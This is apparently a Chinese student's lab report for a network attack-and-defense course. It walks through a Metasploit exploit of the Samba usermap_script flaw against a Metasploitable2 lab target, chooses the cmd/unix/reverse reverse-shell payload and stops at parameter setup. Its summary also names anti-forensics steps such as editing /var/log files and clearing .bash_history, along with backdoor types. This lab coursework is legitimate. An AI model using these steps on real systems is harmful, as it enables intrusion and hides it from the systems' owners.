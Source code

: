 - **本地特权提升的防范措施**
  - 安装软件时评估风险
  - Linux服务器的管理员安全配置系统
  - 使用SELinux等安全增强模块
- **Linux系统上的消踪灭迹**
  - 在`/var/log`下对`message`、`auth`、`secure`和`xferlog`等日志文件进行修改
  - 通过对`.bahs_history`文件的清理，清理shell的命令痕迹
- **Linux系统远程控制后门程序**
  - Linux系统上植入远程控制后门程序的类型主要有:特洛伊木马化的系统程序、命令行
    后门工具以及图形化后门工具。

## 二、实践过程

### 2.1 动手实践: 使用Metasploit进行Linux远程渗透攻击

使用Metasploit渗透测试软件，攻击Linux靶机上的Samba服务usermap_script 安全漏洞，获取目标Linux靶机的主机访问权限。实践步骤如下:

（1）启动Metasploit软件，可根据个人喜好使用msfconsole. msfgui. msfweb之一;

（2）使用exploit: exploit/multi/samba/usermap_script 渗透攻击模块；

（3）选择攻击PAYLOAD为远程Shell, (正向或反向连接均可);

（4）设置渗透攻击参数(RHOST, LHOST，TARGET 等); 

（5）执行渗透攻击:

（6）查看是否正确得到远程Shell,并查看获得的权限。

------

- 用到的主机

  |             主机              |       IP        |
  | :---------------------------: | :-------------: |
  |        kali（攻击机）         |  192.168.200.4  |
  | Metasploitable2-Linux（靶机） | 192.168.200.125 |

- 首先相互进行ping测试，可以成功。

- kali中输入`msfconsole`启动`kali`里面的`msfconsole`；

- 选择渗透攻击模块

  - 输入`use exploit/multi/samba/usermap_script `选择针对usermap_script 漏洞的渗透攻击模块。

- 选择攻击负载模块

  - 输入`show payloads`列举出所有适用的负载模块，如图所示：

    ![image-20200419215205271](F:\liangx\研一课程\研一下\网络攻防\作业\8linux操作系统安全攻防\img\2-1-1.png)

  - 然后执行`set payload cmd/unix/reverse`选择你要用的攻击负载模块。这里我选择了18号（TCP反转）。

- 配置参数

  - 使用`show options` 查看需要设置的参数，如图，可见需要配置靶机和攻击机IP：
